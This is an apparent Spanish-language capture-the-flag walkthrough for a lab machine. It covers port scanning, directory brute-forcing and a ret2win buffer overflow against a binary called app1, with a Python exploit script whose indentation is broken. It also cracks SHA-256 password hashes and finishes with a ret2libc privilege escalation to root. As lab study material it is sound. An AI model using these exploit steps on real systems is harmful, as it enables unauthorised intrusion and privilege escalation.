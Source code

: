 nmap: 80,22,39817

![image](https://github.com/user-attachments/assets/54f701a3-20af-4648-99dc-0d7c5ec12fcf)

---
en la pagina aparece "esta pagina no puede ser hackeada"
y si entramos por el puerto 39817, 

nos aparece: contraseña: Denegado

![image](https://github.com/user-attachments/assets/2cf50a40-fba4-402c-aceb-34b2284bfa50)

si hacemos un gobuster no aparece:

     - app1

Nos descarga un binario
le damos los permisos y ejecutamos, ahora nos conectamos
> ./app1

![image](https://github.com/user-attachments/assets/8c5fdd84-6725-473a-91ad-857f3bc35f50)

en nuestra terminal conectamos:
 
    telnet 127.0.0.1 17562
    
 y nos pedirá escribir algo, y al colocar cualquier cosa se cerrara.

intentare probar si es posible un overflow generandolo:
seguimos los pasos: https://github.com/4bytess/pattern_generator

      -python3 patter.py -m generate -v 50

nos dio: a00a01a02a03a04a05a06a07a08a10a11a12a13a14a15a16a1

![image](https://github.com/user-attachments/assets/63783b1f-22e5-4991-bd51-40d7f774cfd9)

lanzaremos el mismo comando pero con 500 y volvemos a intentar saturar. 

![image](https://github.com/user-attachments/assets/9189ce59-2668-4361-9128-ad1a1f65dbba)

entonces se satura como vemos. 

ahora lanzamos: 

>  python3 pattern.py -m offset -v b14b15b1

nos da: offset: 282

![image](https://github.com/user-attachments/assets/fc51e1ca-1a08-46a5-bc3d-1ac1905f90e8)

lanzamos: 

     gdb -q app1 

y volvemos a lanzar los 500 que nos dio y nos dará un valor. 

![image](https://github.com/user-attachments/assets/f253c4f1-f245-4da0-9493-2f175e3ddc8f)

entonces nos da el valor: 0x000000000040142b
lanzamos ahí mismo un: ret
y nos dará: 0x3262363262353262

nos mostrara la seguridad que tiene el binario
y aparece: NX Enabled

Vemos que solo tiene NX. No tiene canarios ni PIE, es decir que podemos sobrescribir el stack pero no ejecutar shellcode en el stack. Además las direcciones del código del binario son estáticas, por lo que se puede hacer un buffer overflow de tipo ret2win, en donde sobrescribimos el EIP con la dirección de una función que existe en el binario que nunca se llama de por sí 

ahora abrimos otra vez

> gdb app1

y lanzamos: info functions

hay uno llamado "secret function", lo que intentare hacer un overflow hacia ese archivo en especifico.


entonces con el valor que obtuvimos lo pasamos al valor ASCII así: 

     echo "3262363262353262" | xxd -r -p

Nos queda el valor de: b25b26b2

![image](https://github.com/user-attachments/assets/f0f8a9be-cc40-4f26-b595-6dac831582b5)

ahora lanzamos:
> python3 pattern.py -m offset -v b25b26b2

nos da: offset: 312

![image](https://github.com/user-attachments/assets/2a7058d0-c8c1-4c10-8283-1946541d50d1)

ahora modificamos un código que vaya hacia la carpeta o archivo "secret function".

---
#!/usr/bin/python3

from pwn import p64
import socket


payload = b'A' * 312 + p64(0x00000000004011b6)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 17562))  # Dirección y puerto del servicio
    print("[+] Conexión establecida con el servicio")

    
banner = sock.recv(1024)
print(f"[+] Banner recibido: {banner.decode(errors='ignore')}")

sock.send(payload + b'\r\n')
print("[+] Payload enviado")

except ConnectionRefusedError:
    print("[-] No se pudo conectar al servicio. Verifica que el servicio está activo.")
except Exception as e:
    print(f"[-] Error: {e}")

finally:
    # Cerramos el socket
    sock.close()
    print("[+] Conexión cerrada")

---

lo lanzamos: python3 exploit.py y dejamos en escucha "./app1" 
al lanzarlo nos da:

>02e5e6ea15b5d3088af6edf49269a7221eb88dc32747420dc2e482110f649deb

![image](https://github.com/user-attachments/assets/b12a7c71-a153-4dde-be46-37327309e99d)

esta en sha256 ahora lo mandamos a: https://crackstation.net/
y nos da: tiggerjake

![image](https://github.com/user-attachments/assets/07eb2220-d717-4b07-b243-6e10487979b5)

ahora nos conectamos por el puerto 39817

telnet 172.17.0.2 39817 colocamos la contraseña y nos 

![image](https://github.com/user-attachments/assets/ee679082-53f3-4f06-951e-8d3c4150cb65)

lo pasamos otra vez por la pagina por el sha256 y nos da:

    plasticfloor17

![image](https://github.com/user-attachments/assets/01c22335-fb64-4a31-86eb-b6cf60b5d6d2)

entramos al usuario pepe por el puerto 22

![image](https://github.com/user-attachments/assets/38778e40-30d1-413f-9954-7236998b40f7)

vemos que dentro de pepe hay dos app mas

    - app2 y 3

igual que con el app1 solo tiene protección NX, o sea que no podemos ejecutar shellcodes
al listar las funciones que tiene definidas el binario, solo esta la función main, por lo que no se podría hacer un ret2win, pero al ejecutar ldd ./app3 en la maquina victima, vemos que la dirección base de libc.so.6 es siempre la misma. por lo que no hay ASLR. así que es mas fácil atacar a "ret2libc" o sea hacer un ataque buffer overflow y llamar la función "system()" y como parámetro "/bin/sh". 

lanzamos:
>readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"

y nos da:
> 1023: 000000000004c490    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5

para sacar el offset de la cadena "/bin/sh", ejecutamos:
> strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"

y nos da: 
>196031 /bin/sh

![image](https://github.com/user-attachments/assets/31d3181d-2b55-4c70-b635-232678dc9f46)

Ahora ya tenemos los offsets de system() y "/bin/sh". Pero si queremos pasar "/bin/sh" como parámetro a system() en el buffer overflow, tenemos que meter en el registro RDI un puntero a la cadena "/bin/sh" y para meter ese valor en RDI necesitamos encontrar dentro del binario app3 una instrucción pop rdi, para meter un valor del stack en el RDI. 

entonces nos pasamos el "app3" a nuestra terminal y probamos con gdb. 
entonces ejecutamos 

     gdb -q app3 

y les escribimos alguna letra para que de el mismo error:

![image](https://github.com/user-attachments/assets/e2d6e4f1-1924-4a05-816f-970df694b85e)

nos dio: 

     0x0000000000401189
     0x4141414141414141

entonces queda ver que protección tiene, aqui se busca el valor de ASRL si se encuentra habilitado. 

![image](https://github.com/user-attachments/assets/5b13ea90-0b11-458d-8880-0aa0db4d2eda)

contiene 0  o sea que esta deshabilitada. aunque contiene la NX activa que es lo mismo que la anterior. 

tomamos o creamos un código python que nos sirva como exploit.  y el código se basara para este código que nos entrega la app3

![image](https://github.com/user-attachments/assets/e322aaae-8ee9-4502-aed6-60ade5cc9fd5)

La dirección de retorno vale 0x3235613135613035. Para pasarlo a texto hacemos `unhex 3235613135613035 | rev`. que es cambiarlo a valor ASCII Sale que es 50a51a52. Entonces hacemos `pattern.py -m offset -v 50a51a52` y nos dice que el offset es 136.

entonces como nombre, tomaremos un código python o se creara uno ahora ejecutamos el exploit en la máquina víctima en el directorio /home/pepe:

![image](https://github.com/user-attachments/assets/945ab93a-40f3-4fcd-bded-ecb3a192a392)

y somos root! 
